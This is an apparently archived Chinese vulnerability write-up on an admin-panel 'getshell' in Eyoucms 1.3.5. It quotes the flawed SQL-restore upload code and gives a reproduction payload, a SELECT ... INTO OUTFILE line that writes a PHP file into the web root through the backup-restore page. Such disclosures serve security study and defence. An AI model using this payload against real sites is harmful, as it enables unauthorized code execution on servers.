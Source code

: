 ```yaml
---
title: "Eyoucms 1.3.5 后台getshell"
id: zhfly2919
---
```


# Eyoucms 1.3.5 后台getshell

## 一、漏洞简介

### 最新版本删除该功能

## 二、漏洞影响

Eyoucms 1.3.5

## 三、复现过程

### 漏洞分析

相关功能代码在`application/admin/controller/Tools.php`

```
 public function restoreUpload()
 {
     $file = request()->file('sqlfile');
     if(empty($file)){
         $this->error('请上传sql文件');
     }
     // 移动到框架应用根目录/data/sqldata/ 目录下
     $path = tpCache('global.web_sqldatapath');
     $path = !empty($path) ? $path : config('DATA_BACKUP_PATH');
     $path = trim($path, '/');
     $image_upload_limit_size = intval(tpCache('basic.file_size') * 1024 * 1024);
     $info = $file->validate(['size'=>$image_upload_limit_size,'ext'=>'sql,gz'])->move($path, $_FILES['sqlfile']['name']);
     if ($info) {
         //上传成功 获取上传文件信息
         $file_path_full = $info->getPathName();
         if (file_exists($file_path_full)) {
             $sqls = Backup::parseSql($file_path_full);
             if(Backup::install($sqls)){
                //array_map("unlink", glob($path));
                 /*清除缓存*/
                 delFile(RUNTIME_PATH);
                 /*--end*/
                 $this->success("执行sql成功", url('Tools/restore'));
             }else{
                 $this->error('执行sql失败');
             }
         } else {
             $this->error('sql文件上传失败');
         }
     } else {
         //上传错误提示错误信息
         $this->error($file->getError());
     }
 } 
```

上传过程中只验证了文件的大小和后缀，之后解析sql语句并执行。解析sql函数不再贴出，但并没有检测文件内容正常的sql语句都能通过解析。install函数直接执行了sql语句。

### 漏洞复现

登陆后台在`高级选项->备份还原->数据还原`可选择上传sql文件并执行

![image](../img/e31efde75630a234c81f80fd2d29fa4c.png)

上传sql文件内容为（需要知道网站绝对路径）

```
 select '<?php phpinfo(); ?>' into outfile 'D:\\tools\\phpstudy\\phpstudy_pro\\WWW\\testcms\\1.php'; 
```

上传成功后在网站根目录生成webshell。

![image](../img/aa9716e427e7396992451e8321608c9b.png)